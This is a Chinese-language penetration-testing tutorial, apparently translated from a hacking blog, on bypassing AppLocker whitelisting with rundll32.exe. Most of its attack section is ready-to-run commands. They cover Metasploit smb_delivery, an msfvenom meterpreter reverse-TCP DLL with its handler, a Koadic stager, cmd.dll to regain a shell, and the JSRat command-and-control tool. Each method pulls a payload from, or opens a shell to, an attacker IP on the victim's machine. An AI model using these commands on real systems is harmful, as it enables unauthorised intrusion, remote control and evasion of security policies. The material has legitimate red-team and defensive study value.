 ## 使用rundll32.exe绕过应用程序白名单（多种方法）

### 介绍 [^1]

### DLL文件的工作 [^2]

### 好处

- 使用更少的资源
- 促进模块化架构
- 简化部署和安装

### 缺点

- 依赖DLL将升级到新版本
- 依赖DLL是固定的
- 依赖DLL将被早期版本覆盖
- 从计算机中删除从属DLL

### 使用DLL文件的AppLocker Bypass的不同方法

- Smb_Delivery

  - ```bash
    msfconsole
    use exploit/windows/smb/smb_delivery
    set srvhost 192.168.1.110
    exploit
    rundll32.exe \\192.168.1.107\ZtmW\test.dll,0 #当上述漏洞利用程序运行时，它将为您提供一个在受害者的PC上执行的命令。在受害主机cmd运行
    sessions
    ```

- MSFVenom

  - ```bash
    msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.107 lport=1234 -f dll > 1.dll
    rundll32 shell32.dll,Control_RunDLL C:\Users\raj\Downloads\1.dll #受害主机cmd运行
    # 键入以下命令启动multi / handler以获取会话
    msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf exploit(multi/handler) > set lhost 192.168.1.107
    msf exploit(multi/handler) > set lport 1234
    msf exploit(multi/handler) > exploit
    ```

- Koadic

  - ```bash
    use stager/js/rundll32_js
    set SRVHOST 192.168.1.107
    run
    # 当上述漏洞利用程序运行时，它将为您提供一个在受害者的PC上执行的命令
    # 并将其粘贴到受害者PC的命令提示符中并运行
    zombies 0
    ```

- 通过`cmd.dll`获取命令提示符 [软件下载地址](http://didierstevens.com/files/software/cmd-dll_v0_0_4.zip)

  - ```bash
    # 应用场景是目标主机因Applocker策略禁用cmd.exe
    # 将该软件上传到目标主机，并解压执行
    rundll32 shell32.dll,Control_RunDLL C:\Users\raj\Downloads\cmd.dll 
    ```

- JSRat [^3]

  - ```bash
    ./JSRat.py -i 192.168.1.107 -p 4444
    # 一旦JSRat开始工作，它将为您提供在浏览器中打开的链接。该网页将有一个代码，该代码将在受害者的电脑上执行
    http://192.168.1.107/wtf #浏览器打开
    # 复制其中的代码并在受害者PC的命令提示符中运行该代码
    ```

### 结论 [^4]

[原文](https://www.hackingarticles.in/bypass-application-whitelisting-using-rundll32-exe-multiple-methods/)

---

[^1]: DLL文件对于窗口的操作系统非常重要，它还决定了自定义窗口的其他程序的工作。动态链接库（DLL）文件是一种文件类型，它向其他程序提供有关如何调用某些内容的指令。因此，多个软件可以共享这样的DLL文件，甚至可以同时共享。尽管与.exe文件的格式相同，但DLL文件不能像.exe文件那样直接执行。DLL文件扩展名可以是：.dll（动态链接库）,. OCX（ActiveX控件）,. CPL（控制面板）,. DRV（设备驱动程序）
[^2]: 在使用时，DLL文件分为几个部分。这使得DLL文件的工作变得简单快捷。每个部分都在运行时安装在主程序中。由于每个部分都不同且独立; 加载时间更快，并且仅在需要所述文件的功能时才完成。此功能还使升级更容易应用，而不会影响其他部分。例如，你有一个字典程序，每个月都会添加新单词，所以你需要做的就是更新它; 无需为它安装另一个程序
[^3]: 我们下一步攻击regsvr32的方法是使用JSRat，你可以从**[GitHub](https://github.com/Hood3dRob1n/JSRat-Py)**下载它  。这是另一个命令和控制框架，就像koadic和Powershell Empire一样，只为rundll32.exe和regsvr32.exe生成恶意任务。JSRat将创建一个Web服务器，在该Web服务器上，我们将找到我们的.js文件
[^4]: LL文件是各种代码和过程的集合。这些文件可以帮助Windows程序准确执行。这些文件是为多个程序创建的，可以同时使用它们。这种技术有助于记忆保存。因此，这些文件很重要，并且要求Windows正常运行而不会给用户带来任何问题。因此，通过这些文件进行利用是非常有效和致命的。以上介绍的方法是不同的方法。